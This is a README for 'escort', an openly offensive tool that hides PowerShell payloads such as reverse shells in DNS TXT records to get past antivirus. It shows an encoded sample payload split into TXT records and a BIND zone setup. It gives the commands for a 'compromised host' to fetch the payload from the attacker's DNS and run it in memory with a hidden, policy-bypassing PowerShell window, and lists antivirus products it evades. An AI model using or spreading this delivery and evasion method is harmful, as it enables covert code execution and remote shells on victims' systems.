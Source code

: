 # Escort

![](./escort.jpg)

`escort` is an experiment at using DNS TXT records for transmitting malicious payloads to bypass Anti Virus detection. It currently only supports PowerShell payloads (ie reverse shells with powershell) however ideally I will expand this to other potential payload systems. It consists of taking your payload, compressing with DEFLATE and base64 encoding it.

Because not all DNS servers are equal, some servers may return DNS record values not in the order they are declared in. For example CoreDNS using the BIND zone file format will serve results in the order they are declared in, but AWS Route53 may or may not do this. As such we mark the beginning of the base64 encoded with a segment identifier. 

We use the `|` character which is not a valid base64 encoded character to mark the end of the segment identifier and the beginning of the base64 encoded segment. Escort uses this information to recombine the bsae64 segments before decoding them. After decoding we decompress the output and execute it with `Invoke-Expression` cmdlet to avoid writing the script to disk

# Usage

To showcase usage an example payload is included in `payload.txt`

```shell
$> git clone https://github.com/bonedaddy/escort
$> cd escort
$> go build
$> ./escort --input.file payload.txt compress
0|TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnI
1|Y7bDZZ4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8
```
You then want to add these values to your DNS host in order. For example in BIND zone files you would add this as follows:

```bind
$ORIGIN example.org.
@	3600 IN	SOA sns.dns.icann.org. noc.dns.icann.org. (
				2017042745 ; serial
				7200       ; refresh (2 hours)
				3600       ; retry (1 hour)
				1209600    ; expire (2 weeks)
				3600       ; minimum (1 hour)
				)

	3600 IN NS a.iana-servers.net.
	3600 IN NS b.iana-servers.net.

test4   IN TXT   "0|TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnI
test4   IN TXT   "1|Y7bDZZ4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8"
```

On the compromised host you would run `escort.ps1` using one of the following:

```
$> .\escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
$> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
```

This will query the host `test4.example.org` for TXT records and use that to construct the payload.

# Caveats

* Due to the usage of DEFLATE the powershell script you are compressing and base64 encoding must be a minimum of 45 characters in length, otherwise you should skip the deflate process as this will just increase the size of your payload, however this will require modifying `escort.ps1` as it expects a base64 encoded DEFLATE compressed payload.
* This may not evade all antiviruses, known AV solutions I have tested against are listed below


| AV Name | Successfully Bypasses |
|---------|-----------------------|
| Avira Free | Yes |
| MalwareBytes Free | Yes |
# Notes

Brotli offers the best compression of data, however it doesn't appear to be widely supported on Windows unless .NET version >=4.5 is installed so it is temporarily not being used.


# Agent

Agent provides a suped up version of the original escort version using a cross-platform agent system
using tengo as a scripting language to enable easy delivery of custom code.

Client obfuscation is done in an attempt to mitigate detection